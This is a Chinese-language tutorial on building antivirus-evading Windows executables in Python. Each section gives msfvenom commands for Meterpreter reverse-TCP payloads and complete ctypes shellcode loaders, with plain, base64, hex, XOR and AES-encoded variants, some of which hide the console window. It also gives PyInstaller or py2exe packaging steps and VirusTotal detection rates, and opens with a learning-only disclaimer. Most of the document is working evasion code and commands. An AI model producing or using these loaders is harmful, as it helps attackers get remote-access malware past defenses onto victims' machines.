**声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

[toc]


**文章打包下载及相关软件下载：[`https://github.com/TideSec/BypassAntiVirus`](https://github.com/TideSec/BypassAntiVirus)**

---

# 免杀能力一览表



**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 Python加载shellcode免杀介绍

由于python使用比较简单方便，所以现在很多免杀都是使用python来对shellcode进行处理，做一些加密、混淆，用python来实现各种加密也比较简单而且免杀效果相对不错，唯一不足的地方就是py编译生成的exe文件比较大。

免杀工具avet、Python-Rootkit、Avoidz、Winpayloads、BackDoor-Factory都使用了把shellcode嵌入python代码中，然后编译py文件为exe，从而达到免杀的效果。


# 2 通过py源码编译exe

## 2.1 方法1：python加载C代码(VT免杀率19/70)

这种方法是python免杀最常见的一种方式，将C语言的shellcode嵌入到py代码中，然后借助于pyinstaller或py2exe编译打包成exe，不过因为代码和原理比较简单，所以免杀效果一般。

先用msfvenom生成shellcode:
```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```


python代码`pyshellcode.py`

```
#!/usr/bin/python
import ctypes

shellcode = bytearray("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b")

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

然后要使用PyInstaller将py转为exe，pyinstaller依赖于pywin32，在使用pyinstaller之前，应先安装pywin32。

pywin32下载后，点击下一步安装即可`https://sourceforge.net/projects/pywin32/files/pywin32`

pyinstaller 下载`https://github.com/pyinstaller/pyinstaller/releases`，解压，安装好依赖包`pip install -r requirements.txt`，即可使用。



将`pyshellcode.py`复制到`C:\Python27_x86\pyinstaller`目录中，在该目录下执行命令编译exe：
```
python pyinstaller.py -F -w pyshellcode.py
```

执行生成的exe(文件大小3.4M)，可上线，可过360和火绒


msf中可正常上线



virustotal.com中19/70个报毒




## 2.2 方法2：py2exe打包编译exe (VT免杀率10/69)

该方法借用了免杀工具`Python-Rootkit`的思路。

首先要在windows上安装x86版的python。

**注意：必须使用x86版本Python 2.7,即使Windows是x64的，也要安装32位版本。**

我这里安装的是Python 2.7.16 x86 windows版：

```
https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi
```

之后安装32位Py2exe for python 2.7
```
https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download
```
在Windows上安装OpenSSL（可选）

msfvenom生成python payload
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333  -f raw -o shell.py
```

创建文件setup.py

```
from distutils.core import setup

import py2exe

setup(

name = "Meter",

description = "Python-based App",

version = "1.0",

console = ["shell.py"],

options = {"py2exe":{"bundle_files":1,"packages":"ctypes","includes":"base64,sys,socket,struct,time,code,platform,getpass,shutil",}},

zipfile = None

)
```

在msf中设置payload`windows/meterpreter/reverse_tcp`，监听相应3333端口。

在windows下执行`python.exe .\setup.py py2exe`，(文件大小11M)



msf中可正常上线



打开杀软进行测试，可正常上线



virustotal.com中10/69个报毒



## 2.3 方法3：base64编码(VT免杀率16/70)

和2.1方法一样，先生成shellcode。

先用msfvenom生成shellcode，记得要用base64编码:
```
msfvenom -p windows/meterpreter/reverse_tcp --encrypt base64  LHOST=10.211.55.2 LPORT=3333   -f c
```
python代码如下：

```
import ctypes
import base64

encode_shellcode = ""

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```
使用pyinstaller编译打包exe，生成文件大小3.4M
```
python pyinstaller.py -F -w pyshellcode.py
```

在测试机器运行时，360杀毒静态查杀报警，但执行和上线都没问题。





virustotal.com中16/71个报毒


## 2.4 方法4：py+C编译exe(VT免杀率18/69)

和2.1方法一样，先生成shellcode。

先用msfvenom生成shellcode:
```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```
python代码如下：
```
import ctypes

buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr:
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```
使用pyinstaller编译打包exe，生成文件大小3.4M
```
python pyinstaller.py -F -w pyshellcode.py
```



virustotal.com中18/69个报毒



## 2.5 方法5：xor加密(VT免杀率19/71)

这个和专题27中的方法6一样，需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```


生成了三个文件，有一个py文件，也是我们要用到的。

其中`encryptedShellcodeWrapper_xor.py`文件中的python源码如下
```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

# data as a bytearray
# key as a string
def xor(data, key):
	l = len(key)
	keyAsInt = map(ord, key)
	return bytes(bytearray((
	    (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
	)))

#------------------------------------------------------------------------
def unpad(s):
	"""PKCS7 padding removal"""
	return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
	"""Decrypt data with the provided key"""

	# Initialization Vector is in the first 16 bytes
	iv = cipherText[:AES.block_size]

	cipher = AES.new(key, AES.MODE_CBC, iv)
	return unpad(cipher.decrypt(cipherText[AES.block_size:]))


if __name__ == '__main__':

	encryptedShellcode = ("\xaf\xac\xda\x91\...")
	key = "tidesec"
	cipherType = "xor"

	# Decrypt the shellcode
	if cipherType == 'xor':
		shellcode = xor(bytearray(encryptedShellcode), key)
	elif cipherType == 'aes':
		key = base64.b64decode(key)
		shellcode = aesDecrypt(encryptedShellcode, key)
	else:
		print "[ERROR] Unknown cipher type"

	# Copy the shellcode to memory and invoke it
	memory_with_shell = create_string_buffer(shellcode, len(shellcode))
	shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
	shell()
```
使用pyinstaller编译：

```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_xor.py
```

编译执行，可上线，virustotal.com上查杀率19/71



## 2.6 方法6：aes加密(VT免杀率19/71)

这个和上面的方法5：xor加密一样，需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key，加密方式设置为aes即可。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec aes
```

其中`encryptedShellcodeWrapper_aes.py`文件中的python源码如下

```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

#------------------------------------------------------------------------
# data as a bytearray
# key as a string
def xor(data, key):
	l = len(key)
	keyAsInt = map(ord, key)
	return bytes(bytearray((
	    (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
	)))

#------------------------------------------------------------------------
def unpad(s):
	"""PKCS7 padding removal"""
	return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
	"""Decrypt data with the provided key"""

	# Initialization Vector is in the first 16 bytes
	iv = cipherText[:AES.block_size]

	cipher = AES.new(key, AES.MODE_CBC, iv)
	return unpad(cipher.decrypt(cipherText[AES.block_size:]))


if __name__ == '__main__':

	encryptedShellcode = ("\x32\x1f\x96")
	key = "IePGfIakAIG4GxOkNEbyXA=="
	cipherType = "aes"

	# Decrypt the shellcode
	if cipherType == 'xor':
		shellcode = xor(bytearray(encryptedShellcode), key)
	elif cipherType == 'aes':
		key = base64.b64decode(key)
		shellcode = aesDecrypt(encryptedShellcode, key)
	else:
		print "[ERROR] Unknown cipher type"

	# Copy the shellcode to memory and invoke it
	memory_with_shell = create_string_buffer(shellcode, len(shellcode))
	shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
	shell()

```

使用pyinstaller编译：
```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_aes.py
```

编译执行，可上线，virustotal.com上查杀率19/71，和上面的xor加密一样。



# 3 python加载器

## 3.1 方法1：HEX加密(VT免杀率3/56)

这是使用了k8的方法：`https://www.cnblogs.com/k8gege/p/11223393.html`
k8的工具scrun不仅提供了加载python代码，还能加载C#。

先用msfvenom生成一个c格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f c -o shell.c
```

把shellcode转成hex，我这就也用k8飞刀了。



然后下载这里的工具：`https://github.com/k8gege/scrun`

使用`python ScRunHex.py hexcode`就可以加载执行shellcode了



msf中正常上线



virustotal.com上`ScRunHex.py`查杀率3/56



这里也可以直接用`scrun.exe`来直接执行hex代码，不过编译好的`scrun.exe`早就被各大杀软加特征库里了(VT免杀率41/71)，还是自己编译的好一些。

其实`ScRunHex.py`也可以编译成exe，代码需要修改一下。

```
#scrun by k8gege
import ctypes
import sys
shellcode = bytearray(("shellcode-hexcode").decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```
编译exe后执行，可正常上线，不过virustotal.com上查杀率17/69。



## 3.2 方法2：base64加密(VT免杀率3/56)

和上面的3.1一样，也是k8的大作，使用了base64+hex的方式处理shellcode。

文件`ScRunBase64.py`代码如下

```
#scrun by k8gege
import ctypes
import sys
import base64
shellcode=bytearray(base64.b64decode(sys.argv[1]).decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

virustotal.com上`ScRunBase64.py`查杀率4/58


# 4 参考资料

CS强化_python免杀：`https://mp.weixin.qq.com/s/9U7TJiLTIVQNvEakJ-yIAA`

shellcode加载总结:`https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html`  